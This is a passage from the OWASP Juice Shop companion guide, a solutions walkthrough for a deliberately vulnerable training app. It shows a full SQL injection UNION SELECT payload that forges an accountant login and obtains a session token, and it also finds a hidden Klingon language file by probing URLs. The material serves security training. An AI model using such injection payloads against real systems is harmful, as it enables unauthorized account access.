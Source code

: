 
### **Log in with the (non-existing) accountant without ever registering that user**

1. Go to [http://localhost:3000/#/login](http://localhost:3000/#/login) and try logging in with *Email* `'` and any *Password* while observing the Browser DevTools network tab.
2. You will notice the SQL query for the login in the error being thrown: `"sql": "SELECT * FROM Users WHERE email = ''' AND password = '339df5aeae5bc6ae557491e02619c5dd' AND deletedAt IS NULL"`
3. Solve [Exfiltrate the entire DB schema definition via SQL Injection](https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html#_exfiltrate_the_entire_db_schema_definition_via_sql_injection) to learn the exact column names of the `Users` table.
4. Prepare a `UNION SELECT` payload what will a) ensure there is no result from the original query and b) will add the needed user on-the-fly using static values in the query.
5. Log in with *Email* `' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', '[acc0unt4nt@juice-sh.op](mailto:acc0unt4nt@juice-sh.op)' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16 14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--`
6. This will trick the application backend into handing out a valid JWT token and thus establishing a user session.

### **Retrieve the language file that never made it into production**

1. Monitoring the HTTP calls to the backend when switching languages tells you how the translations are loaded:
    - [http://localhost:3000/i18n/en.json](http://localhost:3000/i18n/en.json)
    - [http://localhost:3000/i18n/de_DE.json](http://localhost:3000/i18n/de_DE.json)
    - [http://localhost:3000/i18n/nl_NL.json](http://localhost:3000/i18n/nl_NL.json)
    - [http://localhost:3000/i18n/zh_CN.json](http://localhost:3000/i18n/zh_CN.json)
    - [http://localhost:3000/i18n/zh_HK.json](http://localhost:3000/i18n/zh_HK.json)
    - etc.
2. It is obvious the language files are stored with the official *locale* as name using underscore notation.
3. Nonetheless, even brute forcing all thinkable locale codes (`aa_AA`, `ab_AA`, …, `zz_ZY`, `zz_ZZ`) would still **not** solve the challenge.
4. The hidden language is *Klingon* which is represented by a three-letter code `tlh` with the dummy country code `AA`.
5. Request [http://localhost:3000/i18n/tlh_AA.json](http://localhost:3000/i18n/tlh_AA.json) to solve the challenge. majQa'!

Instead of expanding your brute force pattern (which is not a very obvious decision to make) you can more easily find the solution to this challenge by investigating which languages are supported in the Juice Shop and how [the translations](https://pwning.owasp-juice.shop/companion-guide/latest/part3/translation.html#_helping_with_translations) are managed. This will quickly bring you over to [https://crowdin.com/project/owasp-juice-shop](https://crowdin.com/project/owasp-juice-shop) which immediately spoilers *Klingon* as a supported language. Hovering over the corresponding flag will eventually spoiler the language code `tlh_AA`.
